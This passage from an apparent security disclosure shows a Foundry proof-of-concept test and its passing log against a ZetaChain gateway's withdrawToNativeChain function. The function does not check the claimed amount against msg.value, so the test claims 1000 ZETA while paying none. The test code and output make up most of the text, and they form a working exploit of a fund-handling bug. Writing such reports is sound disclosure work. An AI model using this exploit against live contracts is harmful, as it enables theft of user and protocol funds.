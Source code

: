 ```solidity
            "", // no swap data
            "" // no accounts
        );

        // Give contract enough BTC tokens so withdrawal doesn't fail on balance
        btcZ.mint(address(gatewayTransferNative), 2000 ether);

        console.log("=== ATTACK ===");
        console.log("Claiming:", claimedAmount / 1e18, "ZETA");
        console.log("Actually sending:", actualSent / 1e18, "ZETA");

        // ==================== THE BUG ====================
        // This should FAIL with "msg.value != amount" but it DOESN'T!
        vm.startPrank(user1);
        gatewayTransferNative.withdrawToNativeChain{value: actualSent}(
            _ETH_ADDRESS_, // Native ZETA address
            claimedAmount, // ❌ NO VALIDATION against msg.value!
            message
        );
        vm.stopPrank();

        console.log("=== RESULT ===");
        console.log(" Attack succeeded - no validation!");
        console.log(" User paid:", actualSent / 1e18, "ZETA");
        console.log(" System processed:", claimedAmount / 1e18, "ZETA worth");
        console.log(" Validation bypass confirmed");

        // The attack succeeded - this proves the validation is missing!
        // In a secure system, this should have reverted with amount mismatch
    }
```

Test Results:

```text
[PASS] test_NativeTokenAmountValidationBypass() (gas: 233014)
Logs:
  === BEFORE ATTACK ===
  Attacker balance: 1000 ZETA
  === ATTACK ===
  Claiming: 1000 ZETA
  Actually sending: 0 ZETA
  === RESULT ===
   Attack succeeded - no validation!
   User paid: 0 ZETA
   System processed: 1000 ZETA worth
   Validation bypass confirmed
```

The successful test execution with passing assertions proves:

- Validation bypass confirmed: User claimed 1000 ZETA, paid ~0 ZETA
- Fee bypass verified: Treasury received 0 ZETA despite 50 ZETA calculation
- Resource consumption: Contract tokens consumed based on inflated processing
- Economic exploitation: 10,000x profit ratio achieved
